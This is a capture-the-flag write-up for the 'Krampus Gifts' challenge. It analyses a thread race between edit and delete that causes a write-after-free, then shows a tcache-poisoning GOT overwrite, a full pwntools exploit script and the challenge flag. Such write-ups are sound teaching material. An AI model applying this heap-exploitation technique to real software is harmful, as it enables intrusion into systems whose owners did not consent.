# PRELIMINARY STEPS
To make the challenge work I used pwninit as usual   ```pwninit --bin main --ld ld-2.27.so --libc libc-2.27.so``` for libc and loader. It was my first time dealing with other libraries like libpthread-2.27.so (since it is a multithreaded program). The workaround I used was to symlink libpthread.so.0 with 777 permissions to libpthread-2.27.so: ```ln -s libpthread-2.27.so libpthread.so.0; chmod 777 libpthread.so.0```. Maybe is not the best solution but it works:

```shell
$ ldd main_patched 
	linux-vdso.so.1 (0x00007fff3173d000)
	libpthread.so.0 => /home/user/Desktop/x-mas_ctf/Krampus_Gifts/libpthread.so.0 (0x00007f407e800000)
	libc.so.6 => /home/user/Desktop/x-mas_ctf/Krampus_Gifts/libc.so.6 (0x00007f407e400000)
	ld-2.27.so => /lib64/ld-linux-x86-64.so.2 (0x00007f407ebb3000)
```

# ANALYSIS
### PROTECTIONS
```shell
$ checksec main
[*] '/home/user/Desktop/x-mas_ctf/Krampus_Gifts/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

win function:


The program is a classic CTF-menu that gives us the possibility to create a gift, edit a gift, view gifts, delete a gift, exit. Maxium 10 gifts (0 to 9). Every action is directly executed by the main thread or a new thread is spawn to schedule the activity. The scheduleted functions will be executed in order by the main thread when main calls `ResolveEvents`.



Used BSS data structures:



### ADD
TL;DR (just relevant passages)<br>

UiAdd (main thread):<br>
- malloc(0x70) for our input
- malloc(0x10) to schedule the activity in a separete thread
- spawn thread that execute `AsyncAdd` and return to main<br>

AsyncAdd: (separate thread):<br>
- sleep 1 seconds
- checks if index is valid and if the indexed gift already exist
- IF CHECKS ARE PASSED: malloc(0x10) for passing arguements
- IF CHECKS ARE PASSED: shedule `EventAdd` function
- free 0x10 bytes mallocated by UiAdd 

EventAdd: (separate thread executed ONLY IF AsyncAdd checks are passed):<br>
- g_gifts[index] = malloc(0x70) with same UiAdd input data
- free 0x70 bytes mallocated by UiAdd
- free 0x10 bytes mallocated bytes by AsyncAdd

CODE:<br>




### EDIT
TL;DR (just relevant passages)<br>

UiEdit (main thread):<br>
- malloc(0x70) for our new input
- malloc(0x10) to schedule the activity in a separete thread
- spawn thread that execute `AsyncEdit` and return to main<br>

AsyncEdit: (separate thread):<br>
- checks if index is valid and if the indexed gift exists
- IF CHECKS ARE PASSED: malloc(0x10) for passing arguements
- IF CHECKS ARE PASSED: SLEEP (1 seconds)
- shedule `EventEdit` function
- free 0x10 bytes mallocated by UiEdit

EventAdd: (separate thread executed ONLY IF AsyncEdit checks are passed)
- Update existing gift data
- free 0x70 bytes mallocated by AsyncAdd
- free 0x10 bytes mallocated by AsyncEdit

CODE:<br>




### DELETE
TL;DR (just relevant passages)<br>

UiDelete (main thread):<br>
- malloc(0x4) for passing arguments
- spawn thread that execute `AsyncDelete` and return to main<br>

AsyncDelete: (separate thread):<br>
- checks if index is valid and if the indexed gift exists
- IF CHECKS ARE PASSED: malloc(0x4) for passing arguements
- IF CHECKS ARE PASSED: shedule `EventDelete` function
- free 0x4 bytes mallocated by UiDelete

EventDelete: (separate thread executed ONLY IF AsyncDelete checks are passed):
- free the indexed `g_gift`
- set the indexed `g_gift` pointer to zero
- free 0x4 bytes mallocated by AsyncDelete

CODE:<br>




# VULNERABILITY
Synchronization between threads occurs with "sleep" functions, which are typically not recommended.<br>
In fact, the AsyncEdit function checks the index and that the gift is valid (allocated) and then goes to sleep for a second.<br>
Calling the DELETE function (which does no sleep) immediately after the edit function will execute it first.<br>
We will get a write-after-free that allows us to change the forward pointer of the chunk in the tcache.<br>
Glibc 2.27 has no special tcache checks so the attack works.<br>
We can continue to malloc data from tcache in order to mallocate the poisoned chunk pointer.
This can be done by calling the ADD function but not passing the checks, in fact the 0x70 byted mallocated by the UiAdd will not be freed if the checks fail.
We can use this to override `g_gifts` pointers. By overriding one with the `exit` function in the GOT we can use the EDIT function to modify the entry and make it point to the `Flag` function. Finally exiting the menu we will get shell.

# EXPLOIT
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("main_patched")
libc = ELF("libc-2.27.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

gs = ''' 
continue
'''

Flag = 0x00400c6a
g_events = 0x00602110
g_gifts = 0x00602160


def conn():
    if args.LOCAL:
        r = gdb.debug("./main_patched", gdbscript=gs)
    else:
        r = remote("challs.htsp.ro", 8003)
    return r


def request_gift(r, index, payload):
    r.sendlineafter(b'4. Reject gift\n', b'1')
    r.sendlineafter(b'index:', index)
    r.sendlineafter(b'gift:', payload)


def view_gift(r):
    r.sendlineafter(b'4. Reject gift\n', b'2')


def edit_gift(r, index, payload):
    r.sendlineafter(b'4. Reject gift', b'3')
    r.sendlineafter(b'index:', index)
    r.sendlineafter(b'gift:', payload)


def reject_gift(r, index):
    r.sendlineafter(b'4. Reject gift', b'4')
    r.sendlineafter(b'index:', index)


def exit_shell(r):
    r.sendlineafter(b'4. Reject gift', b'0')


def main():
    r = conn()
    #PART 1: TRIGGER MULTITHREAD RACE CONDITION
    #FOR WRITE-AFTER-FREE
    #TO TCACHE FD POINTER OVERWRITE
    request_gift(r, b'3', b'A'*32)
    request_gift(r, b'1', b'B'*32) 
    sleep(1)
    view_gift(r)

    edit_gift(r, b'1', p64(g_gifts))
    reject_gift(r, b'1')
    view_gift(r)
    sleep(1)
    request_gift(r, b'4', p64(g_gifts+8*4))
    request_gift(r, b'4', b'C'*32) 
    sleep(1)

    #PART 2: GET SHELL
    edit_gift(r, b'0', p64(0x6020a8))
    sleep(1)
    view_gift(r)
    edit_gift(r, b'4', p64(Flag))
    sleep(1)
    exit_shell(r)

    r.interactive() 

if __name__ == "__main__":
    main()
```

# FLAG
`X-MAS{KR4mpu5_91Ft5_4r3_5OM3WH4t_M15l34d1n}`
